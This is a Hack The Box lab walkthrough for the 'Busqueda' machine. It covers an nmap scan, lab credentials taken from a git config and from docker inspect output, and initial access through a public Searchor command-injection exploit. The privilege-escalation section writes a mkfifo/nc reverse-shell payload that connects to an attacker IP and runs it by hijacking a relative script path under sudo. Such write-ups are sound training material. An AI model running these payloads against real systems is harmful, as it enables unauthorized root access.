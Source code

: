```yaml
---
title: "Busqueda"
date: 2024-09-10
categories: HTB
tags: ["busqueda", "htb walkthrough", "ctf", "cybersecurity", "hackthebox", "htb writeup", "penetration testing", "writeup", "htb"]
---
```


# Busqueda

# Busqueda

## Summary
# Credentials
| Username      | Password            | Hash | Source |
| ------------- | ------------------- | ---- | ------ |
| svc           | jh1usoih2bkjaspwe92 |      |        |
| gitea         | jI86kGUuj87guWr3RyF |      |        |
| administrator | yuiu1hoiu4i5ho1uh   |      |        |
|               |                     |      |        |
# Notes
"Env":
MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF
MYSQL_USER=gitea
MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh
MYSQL_DATABASE=gitea
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
"GOSU_VERSION=1.14"
"MYSQL_MAJOR=8.0"
"MYSQL_VERSION=8.0.31-1.el8"
"MYSQL_SHELL_VERSION=8.0.31-1.el8"]
# Enumeration
- Footer contains service version number.
# Initial Access
- Gain shell as `svc` user by using a public exploit.
# Privilege Escalation
- `/var/www` contains `.git`
	- `config` file contains cody user credentials for `gitea.searcher.htb`
		- add the new domain to `/etc/hosts`
		- sign in with the obtained credentials 
- SSH as `svc` user with cody user's passsword.
	- `sudo -l` svc user has sudo privileges to run some python scripts
	- Following the official documentation for command formats, I was able to obtain more credentials.
	- Path abuse one of the python scripts. 
		- create a new file with reverse shell payload in another directory `/tmp`.
		- name it the same 
		- execute the file in the `tmp` using `sudo`.

# Nmap
# TCP
```sh
└─$ nmap -sC -sV 10.10.11.208 -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-05 10:31 AEST
Stats: 0:00:05 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 42.98% done; ETC: 10:31 (0:00:08 remaining)
Nmap scan report for 10.10.11.208
Host is up (0.019s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# 80-HTTP
# Screenshots
![[/assets/images/busqueda1.png]]

![[/assets/images/busqueda2.png]]

![[/assets/images/busqueda3.png]]


# Initial Access
https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection

Shell as svc
![[/assets/images/busqueda4.png]]

![[/assets/images/busqueda5.png]]

```text
http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
```

![[/assets/images/busqueda6.png]]

```text
0000000000000000000000000000000000000000 5ede9ed9f2ee636b5eb559fdedfd006d2eae86f4 administrator@gitea.searcher.htb
```

add gitea.searcher.htb to `/etc/hosts`

![[/assets/images/busqueda7.png]]

sign in as `cody : jh1usoih2bkjaspwe92`

![[/assets/images/busqueda8.png]]

ssh as `svc :jh1usoih2bkjaspwe92 `

# Privilege Escalation

![[/assets/images/busqueda10.png]]


![[/assets/images/busqueda11.png]]

![[/assets/images/busqueda12.png]]

https://docs.docker.com/reference/cli/docker/inspect/

![[/assets/images/busqueda13.png]]

```sh
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' mysql_db
```


![[/assets/images/busqueda14.png]]

![[/assets/images/busqueda15.png]]

We now attempt to leverage the relative reference to `full-checkup.sh` by executing the `system-checkup` script from another directory that will contain our own malicious `full-checkup.sh` script.

```sh
# create a shell file and insert a reverse shell payload into it
echo -en "#! /bin/bash\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 9001 >/tmp/f" > /tmp/full-checkup.sh
# make it executable
chmod +x /tmp/full-checkup.sh
# execute the shell
cd /tmp
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

![[/assets/images/busqueda16.png]]
